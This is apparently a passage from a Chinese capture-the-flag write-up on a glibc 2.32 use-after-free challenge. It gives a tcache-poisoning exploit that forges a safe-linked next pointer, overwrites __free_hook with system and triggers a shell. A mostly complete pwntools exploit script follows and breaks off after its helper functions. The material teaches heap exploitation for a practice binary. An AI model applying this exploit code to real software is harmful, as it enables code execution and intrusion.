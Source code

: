 ​ 利用UAF伪造tcache的next值，覆写__free_hook

```
message = "======================== TCACHE ATTACK ======================"
success(message)
__free_hook = libc_base + libc.sym['__free_hook']
add(0, 0x20, 'aaaa')
add(1, 0x20, 'bbbb')
free(1)
free(0)
edit(0, p64(pack(heap + 0x730, __free_hook)))
add(0, 0x20, '/bin/sh\x00')
add(1, 0x20, p64(libc_base + libc.sym['system']))
free(0)
```

​ 完整exp如下仅供参考，由于整个程序在堆块编辑的过程中限制很宽松，大家可以自己写出更多种exp

```
from pwn import *

local = 1
binary = './UAF_glibc2.32'
libc_path = './libc-2.32.so'

if local == 1:
    p = process(binary)

def dbg():
    context.log_level = 'debug'

def add(index, size, content):
    p.sendlineafter('&gt;', '1')
    p.sendafter('index', str(index))
    p.sendafter('size', str(size))
    p.sendafter('content:', content)


def edit(index, content):
    p.sendlineafter('&gt;', '2')
    p.sendafter('index', str(index))
    p.sendafter('content:', content)


def show(index):
    p.sendlineafter('&gt;', '4')
    p.sendafter('index', str(index))


def free(index):
    p.sendlineafter('&gt;', '3')
    p.sendafter('index', str(index))


def pack(pos, ptr):
    return (pos &gt;&gt; 12) ^ ptr


def gdbg():
    gdb.attach(p)
    pause()


libc = ELF(libc_path)

```